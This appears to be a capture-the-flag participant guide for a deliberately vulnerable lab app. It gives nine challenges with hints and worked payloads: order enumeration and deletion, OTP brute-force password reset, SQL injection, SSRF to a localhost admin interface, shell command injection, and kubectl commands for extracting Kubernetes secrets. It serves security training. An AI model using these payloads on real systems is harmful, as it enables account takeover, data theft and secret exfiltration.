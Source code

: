 ![Upwind CTF - Participant](/assets/Logo-Components-1.svg)

# Upwind CTF – Break Out of the System

Welcome to the Upwind Capture The Flag!.

Scenario: You're operating **inside the system construct**, a simulated environment riddled with misconfigured APIs, privileged flaws, and exposed telemetry.  
Your goal: **exploit runtime vulnerabilities and escape**. No solutions are given—only patterns, trails, and signals.

> **Start-up Sequence**
> - Use: `http://user-<digit>-ctf.ctf.upwind.sh/`
> - Your `session cookie` = your identity.
> - Credentials are embedded in the HTML source of the login page.
> - If issues persist, contact your assigned Upwind CTF Operator.

---

## Challenge 1 – Internal Operations Overflow

**Goal:** Boost your job’s internal operation counter to ≥ 1,000,000.

<details>
  <summary><strong>Show Hints</strong></summary>

  - An endpoint allows increasing your job's operation count.
  - The system does not validate upper bounds—leverage that.

  <details>
    <summary>Still stuck?</summary>
    Did you try:

   >POST {{baseUrl}}/job/add_operations?amount="amount"
  
  </details>
</details>

---

## Challenge 2 – Query bluePill Order Telemetry

**Goal:** Determine the number of pills ordered by `bluePill`.

<details>
  <summary><strong>Show Hints</strong></summary>

  - POST `/orders` with a `username` payload.
  - Override the username to `bluePill`.

  <details>
    <summary>Still stuck?</summary>
    Use body:

   >{ "username": "bluePill" }

  </details>
</details>

---

## Challenge 3 – Discover Peer in Same Role

**Goal:** Identify another user with your role (not `bluePill`).

<details>
  <summary><strong>Show Hints</strong></summary>

  - Use `GET /orders/{orderId}` to enumerate.
  - Try a range of order IDs and inspect metadata.

  <details>
    <summary>Still stuck?</summary>
    Try 

   > GET /orders/206. 

Then look at the `username` field.
  </details>
</details>

---

## Challenge 4 – Remote Order Deletion

**Goal:** Delete another user's order.

<details>
  <summary><strong>Show Hints</strong></summary>

  - Use the HTTP DELETE method.
  - Use a target order ID you do not own. (you found one in Challenge 3)

  <details>
    <summary>Still stuck?</summary>
    Try 
    
   > DELETE {{baseUrl}}/orders/206 

  </details>
</details>

---

## Challenge 5 – OTP Reset Breach

**Goal:** Reset the password of another user via OTP brute-force.

<details>
  <summary><strong>Show Hints</strong></summary>

  - Trigger an OTP using: `POST /auth/reset-password`
  - Brute-force the OTP (000–999)

  <details>
    <summary>Still stuck?</summary>

   > POST /auth/reset-password
   
   with payload:
   > { "username": "smith" }

Then:
    
   > POST /auth/change-password
    
   with payload
   
   > {
      "username": "user",
      "otp": "xyz",
      "new_password": "newpass"
    }

Use a runner or script to iterate all combinations.
  </details>
</details>

---

## Challenge 6 – Discover Database Viewer

**Goal:** Identify the application used to visualize logs.

<details>
  <summary><strong>Show Hints</strong></summary>

  - `/diagnostics/get_logs` has an injectable field.
  - Classic SQL injection techniques apply.

  <details>
    <summary>Still stuck?</summary>
Payload:

  >  { "username": "user1' OR '1'='1" }
 
Response will expose app logs and CLI startup script.
  </details>
</details>

---

## Challenge 7 – Extract Admin Credentials

**Goal:** Read admin data via SSRF.

<details>
  <summary><strong>Show Hints</strong></summary>

  - The profile picture field accepts remote URLs.
  - The admin DB interface runs locally. You know the technology (challenge 6)

  <details>
    <summary>Still stuck?</summary>
Try:

  >  http://127.0.0.1:8001/app/users.json

as your new profile image URL.
  </details>
</details>

---

## Challenge 8 – Runtime Process Enumeration

**Goal:** Discover another process running under a target user.

<details>
  <summary><strong>Show Hints</strong></summary>

  - `/diagnostics` field is shell-executed.
  - Use `ps aux | grep`.

  <details>
    <summary>Still stuck?</summary>
    Example:

  >  { "target": "localhost && ps aux | grep <<username>>" }

  </details>
</details>

---

## Challenge 9 – Kubernetes Secret Extraction

**Goal:** Use runtime access to extract a Kubernetes secret.

<details>
  <summary><strong>Show Hints</strong></summary>

  - Escalate using `kubectl get pods`, then exec into another pod.
  - Extract secrets from the keymaker pod.

  <details>
    <summary>Still stuck?</summary>
    Sequence:

  >  kubectl get pods

  >  kubectl exec pod-name -- get secrets

  >  kubectl exec pod-name -- last command

  </details>
</details>

---

## Final Tips

- Cookies persist identity.
- Log all requests/responses.
- Sequence matters—reuse output.
- If stuck, test payloads locally before triggering them remotely.
- Challenges build on each other.
- A hidden internal service may reveal far more than it should.
- Trust the signals. Break the system.



---

**Ready to escape? Good luck.**
